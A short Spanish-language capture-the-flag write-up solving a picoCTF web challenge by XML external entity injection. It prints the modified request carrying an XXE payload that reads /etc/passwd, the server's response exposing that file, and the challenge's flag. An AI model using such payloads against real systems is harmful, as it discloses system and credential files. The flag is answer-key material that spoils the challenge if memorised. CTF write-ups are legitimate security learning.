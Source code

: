 ## Descripción:
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:57667/)

Hints:
XML external entity Injection
## Solución:
```
picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```

## Notas:
Con Burp Suite le puse en interceptar y al darle click mandaba una petición que modificandola queda así:
```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
	<data>
		<ID>
			&test;
		</ID>
	</data>
```

y de respuesta me mandó esto donde está la bandera:
```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Wed, 02 Apr 2025 02:59:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```